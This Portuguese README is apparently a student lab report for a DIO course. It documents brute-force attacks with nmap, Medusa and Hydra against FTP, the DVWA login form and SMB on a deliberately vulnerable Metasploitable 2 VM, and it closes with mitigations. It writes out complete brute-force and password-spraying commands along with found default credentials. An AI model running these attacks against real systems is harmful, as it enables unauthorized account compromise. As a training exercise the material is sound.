










# 🛡️ Simulação de Ataques de Força Bruta e Mitigação com Kali Linux, Medusa, Hydra e Python

Projeto prático desenvolvido para o desafio de Cibersegurança da **DIO (Digital Innovation One)**. O objetivo foi simular ataques de força bruta em um ambiente controlado, diagnosticar limitações técnicas de ferramentas automatizadas em aplicações web e propor medidas efetivas de defesa e mitigação.

> ⚠️ **Aviso Legal:** Todos os testes documentados neste projeto foram realizados exclusivamente em ambiente virtualizado isolado (*Host-Only*), utilizando máquinas virtuais vulneráveis propositalmente criadas para fins educacionais (Metasploitable 2 e DVWA). Nenhuma técnica aqui descrita deve ser aplicada contra sistemas sem autorização explícita.

---

## 🏗️ Arquitetura do Laboratório

O ambiente foi estruturado no **Oracle VirtualBox** utilizando uma rede interna isolada (**Host-Only Adapter**), garantindo que nenhum tráfego saísse para a internet:

* **Máquina Atacante:** Kali Linux (usuário `daio`)
* **Máquina Alvo:** Metasploitable 2 (`192.168.56.101`)
* **Serviços Auditados:** FTP (porta 21), SMB (portas 139/445), SSH (porta 22) e Aplicação Web DVWA (porta 80)

### Estrutura do Repositório

```text
├── README.md                 # Documentação completa do projeto
├── wordlists/
│   ├── users                 # Lista de usuários alvo
│   └── pass                  # Lista de senhas comuns
├── scripts/
│   └── check_csrf_login.py   # Script em Python para validação de sessão HTTP
└── images/                   # Capturas de tela das evidências e execuções
```

---

## 🔍 1. Reconhecimento

Antes de qualquer tentativa de ataque, foi feita a identificação do alvo e dos serviços expostos.

### Conectividade

```bash
ping -c 4 192.168.56.101
```

4 pacotes transmitidos, 4 recebidos, 0% de perda — alvo acessível na rede host-only.



### Varredura de portas e serviços (Nmap)

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.101
```

| Porta    | Serviço     | Versão                                       |
| -------- | ----------- | --------------------------------------------- |
| 21/tcp   | ftp         | vsftpd 2.3.4                                   |
| 22/tcp   | ssh         | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)   |
| 80/tcp   | http        | Apache httpd 2.2.8 ((Ubuntu) DAV/2)            |
| 139/tcp  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)    |
| 445/tcp  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)    |



A versão `vsftpd 2.3.4` já é conhecida por vulnerabilidades críticas, e o Apache 2.2.8 é extremamente desatualizado — ambos típicos do Metasploitable 2.

---

## ⚔️ 2. Força Bruta em Serviço FTP (Medusa)

Com o serviço FTP confirmado na porta 21, foi executado o Medusa com wordlists simples:

```bash
medusa -h 192.168.56.101 -U users -P pass -M ftp -t 6
```



**Resultado:** credencial válida identificada com sucesso:

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

### Validação manual

O acesso foi confirmado manualmente via cliente FTP, evitando confiar apenas na saída da ferramenta automatizada:

```bash
ftp 192.168.56.101
# Name: msfadmin
# Password: msfadmin
# 230 Login successful.
```



Banner inicial do serviço, útil para fingerprinting:



---

## 🌐 3. Auditoria em Formulário Web — DVWA

Este foi o cenário mais rico em aprendizado do projeto, pois a primeira tentativa **falhou de forma instrutiva**.

### 3.1 Reconhecimento do formulário de login

Antes de atacar, os campos do formulário (`/dvwa/login.php`) foram inspecionados via DevTools do navegador, confirmando os parâmetros enviados no `POST` (`username`, `password`, `Login`):



### 3.2 Primeira tentativa com Medusa — falsos positivos

```bash
medusa -h 192.168.56.101 -U users -P pass -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6
```



O Medusa reportou `ACCOUNT FOUND` (sucesso) para praticamente todas as combinações testadas (`msf:123456`, `msf:admin`, `admin:msfadmin`, `msfadmin:msfadmin`) — o que é tecnicamente impossível, já que o DVWA só aceita uma credencial válida.

**Diagnóstico:** o protocolo HTTP é *stateless*. O Medusa enviou requisições `POST` fixas sem gerenciar o cookie de sessão (`PHPSESSID`) nem acompanhar corretamente o redirecionamento feito pelo servidor após a tentativa de login, interpretando erroneamente a resposta como sucesso.

Uma segunda rodada, já com o filtro de falha configurado, reproduziu o mesmo problema — confirmando que a limitação é estrutural ao módulo HTTP do Medusa nesse cenário, e não um erro pontual de sintaxe:



### 3.3 Contorno com THC-Hydra

Para lidar corretamente com o estado da sessão, utilizou-se o módulo `http-post-form` do Hydra. A primeira tentativa teve um erro de digitação no nome do módulo, e a segunda incluiu um parâmetro de token mal formatado:

```bash
# Erro 1: nome do módulo digitado errado
hydra -L users -P pass 192.168.56.101 http-post-from "..."
# [ERROR] Unknown service: http-post-from

# Erro 2: parâmetro de token mal formatado na string de condição
hydra -L users -P pass 192.168.56.101 http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login&user_token=^CSRF^:F=Login failed:S=user_token"
# [ERROR] no valid optional parameter type given: F
```

Na versão legada do DVWA presente no Metasploitable 2, a tela principal **não exige `user_token`** — então o comando foi simplificado:

```bash
hydra -L users -P pass 192.168.56.101 http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^:F=Login failed"
```



**Resultado:** o Hydra identificou com precisão apenas a credencial real, sem falsos positivos:

```
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

### 3.4 Validação independente com Python

Para confirmar o achado por um caminho totalmente diferente das ferramentas em C, foi escrito o script [`check_csrf_login.py`](scripts/check_csrf_login.py), usando `requests.Session()` para manter o cookie `PHPSESSID` ativo entre o `GET` inicial (que inspeciona o DOM em busca de tokens ocultos) e o `POST` das credenciais.



```
[-] Falha na autenticação para: msfadmin:password
[-] Falha na autenticação para: msfadmin:123456
[-] Falha na autenticação para: msfadmin:admin
[-] Falha na autenticação para: msf:password
[-] Falha na autenticação para: msf:123456
[-] Falha na autenticação para: msf:admin
[+] Autenticação bem-sucedida com: admin:password
```

A inspeção do HTML via `BeautifulSoup` confirmou que a versão do DVWA presente no Metasploitable 2 não exige `user_token` na tela de login principal — fechando o diagnóstico: a falha do Medusa estava ligada exclusivamente ao gerenciamento de sessão/redirecionamento, e não à ausência de um token CSRF.

---

## 🗂️ 4. SMB — Enumeração e Password Spraying

O Nmap confirmou o serviço Samba ativo nas portas 139 e 445. Este cenário foi planejado com o comando abaixo, aplicando a técnica de *password spraying* (uma senha testada contra múltiplos usuários, para evitar bloqueio de conta):

```bash
medusa -h 192.168.56.101 -U users -p msfadmin -M smbnt
```

> 📝 **Nota:** as evidências (prints) desta etapa ainda não foram anexadas ao repositório. Se você tiver as capturas, adicione-as em `images/` e descreva o resultado aqui (usuário validado, enumeração feita com `enum4linux`, etc.) antes da entrega final.

---

## 🧰 Wordlists utilizadas

* **`wordlists/users`** — `msfadmin`, `msf`, `admin`
* **`wordlists/pass`** — `msfadmin`, `admin`, `123456`, `password`

---

## 🛡️ Medidas de Prevenção e Mitigação

1. **Política de senhas fortes e eliminação de credenciais padrão** — alterar imediatamente credenciais de fábrica (`admin:password`, `msfadmin:msfadmin`) e exigir senhas complexas (mínimo de 12 caracteres, combinando letras, números e símbolos).
2. **Bloqueio de conta (*Account Lockout*) e *Rate Limiting*** — limitar requisições por segundo por IP e bloquear temporariamente contas após 3 a 5 tentativas falhas consecutivas.
3. **Autenticação multifator (MFA)** — torna credenciais vazadas ou descobertas por força bruta insuficientes para o acesso.
4. **Tokens anti-CSRF e CAPTCHA** — tokens únicos por requisição, aliados a CAPTCHA após falhas repetidas, dificultam scripts automatizados simples.
5. **Desativação de serviços legados inseguros** — substituir FTP em texto claro por SFTP/FTPS e restringir o acesso ao SMB apenas a sub-redes autorizadas via firewall.
6. **Monitoramento e resposta a incidentes** — usar Fail2Ban para monitorar logs de autenticação e banir automaticamente IPs com comportamento anômalo.

---

## 🧠 Aprendizados Principais

* **Ferramentas prontas vs. scripts próprios:** ferramentas em C (Medusa, Hydra) oferecem alta velocidade e multithreading para protocolos de rede padrão (FTP, SMB, SSH), enquanto scripts em Python oferecem controle granular sobre sessões, cookies e lógica customizada em aplicações web.
* **Importância da validação manual:** toda saída de ferramenta automatizada deve ser validada para descartar falsos positivos causados por redirecionamentos HTTP ou má interpretação de respostas do servidor — foi exatamente isso que aconteceu com o Medusa contra o DVWA.
* **Depuração de falso positivo:** o Medusa reportou `ACCOUNT FOUND` para combinações inválidas ao atacar `/dvwa/login.php`, mesmo com o filtro de falha (`FAIL=Login failed`) configurado corretamente. A causa foi o não gerenciamento do cookie de sessão e do redirecionamento HTTP — não a ausência de um token CSRF, como foi confirmado pelo script Python.
* **Erros de sintaxe fazem parte do processo:** os dois primeiros comandos do Hydra falharam por um nome de módulo digitado errado e por um parâmetro malformado — documentar esses erros reforça o entendimento da ferramenta, não o enfraquece.
